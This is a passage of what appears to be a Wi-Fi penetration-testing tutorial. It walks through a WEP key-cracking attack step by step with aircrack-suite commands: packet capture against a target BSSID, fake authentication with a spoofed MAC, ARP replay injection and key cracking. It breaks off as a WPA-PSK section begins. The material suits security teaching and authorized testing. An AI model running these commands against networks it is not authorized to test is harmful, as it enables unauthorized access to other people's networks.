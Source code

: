 ```sh
sudo wpa_supplicant -i <int> -c <file>
```

Then open another terminal and request `ip` from the `DHCP` server:

```sh
sudo dhclient wlan0 -v
```

# Attacking Networks

## Attacking WEP Networks

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/25a28bbe-eedf-45ff-b37e-9757206488e7)


1.  Capture packets with the `WEP` network info

```sh
sudo airodump-ng -w <pcap_file_name> --band abg --bssid <mac> -c <channel> wlan0mon
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/26e2fcb3-25fd-4dd0-8605-d6cee8b47f84)


2.  Send fake authentication

```sh
sudo aireplay-ng -1 0 -a <BSSID> -h <Interface_Mac> -e "ESSID" <Interface>
```

> Note: The interface mac address you can use anything also you if you would like to spoof one

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/2ecccfa9-7b11-4475-9c42-e96ca787e07b)


3.  ARPreplay Attack

```sh
sudo aireplay-ng --arpreplay -b <BSSID> -h <Interface_mac_address> <interface_in_mointor_mode>
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/83bdb6cb-7a7f-4ab9-84fc-b1a18b1daa47)


4.  Crack password

```sh
sudo aircrack-ng wep-01.cap
```

![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/579ac7b3-1ba3-48fe-910c-2b5a6a3dc6de)


## Attacking WPA-PSK Networks

1.  Gathering information of the target network like the `Channel` , `BSSID`
